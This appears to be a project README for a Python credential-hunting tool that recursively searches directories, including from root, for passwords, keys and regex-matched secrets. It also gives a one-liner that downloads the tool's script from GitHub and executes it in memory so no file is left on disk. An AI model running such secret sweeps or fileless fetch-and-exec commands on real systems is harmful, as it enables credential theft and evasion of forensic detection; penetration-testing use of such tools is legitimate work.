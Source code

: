 # credminer

credminer is a Python recursive string and regex utility. It allows you to recursively search through all files with in a directory and any subdirectories and matches on a string or regex. When a match is found it prints what was matched and the full path of the file it was found in to the screen. By default it will search all filetypes so unless you want to look for secrets in a specific filetype the `-f` can be ommited.

![secret_search.gif](https://github.com/3Xploitd/credminer/blob/5f0d943987684b7af1a91fe8059d97424e0832c9/secret_search.gif)

## usage

~~~

usage: credminer.py [-h] (-t TEXT | -r REGEX | -s) -d DIRECTORY [-f FILETYPE] [-a ADDREGEX]

options:
  -h, --help            show this help message and exit
  -t TEXT, --text TEXT  text or to search for
  -r REGEX, --regex REGEX
                        regular expression to match on
  -s, --secrets         Secrets to search for
  -d DIRECTORY, --directory DIRECTORY
                        The directory to search in
  -f FILETYPE, --filetype FILETYPE
                        The file extention to search for
  -a ADDREGEX, --addregex ADDREGEX
                        Adds a regex expression to the secrets file
~~~

      
## Examples

`python3 credminer.py -d / -f txt -t password`
This will search for any files under the root directory that are text files and contain the word password in them.

`python3 credminer.py -d / -f pdf -t password`
This will search for the word password in pdf files under the root directory

`python3 credminer.py -d / -s`
This will load the json regexes file and search for secrets matching each of the regexes on all file types under the root directory

`python3 credminer.py -d / -f txt -r "(pass|password|code|key)"`
This will search for either the word password or passcode in text files that are under the root directory

# invoke_credminer

This is  a modified version of `credminer.py` to allow you to run the script without saving it to disk. The reason being, is depending on your use case such as a Penetration Tester, you may not want the script to be saved on disk to leave definite artifacts behind. By default it runs the `get_secrets` function on the root directory, looking for all filetypes. However, this can be easily changed as there are several variables which have been added to pass the arguments to the script without having to pass them yourself. In a way this functions similarly to `IEX` in PowerShell. By changing the values of `text_search`, `regex_search`, `secret_search`, `filetype_search`, and `search_directory` it will automatically assign the arguments so all that has to be done to run the program on disk is `python3 credminer.py` but to run it without downloading it to disk you can run `python3 -c 'import requests; r = requests.get("https://raw.githubusercontent.com/3Xploitd/credminer/main/invoke_credminer.py").text;exec(r)'`.

![demo.gif](https://github.com/3Xploitd/credminer/blob/c3a23752a1accbaffce095824b158f53de8918ec/demo.gif)

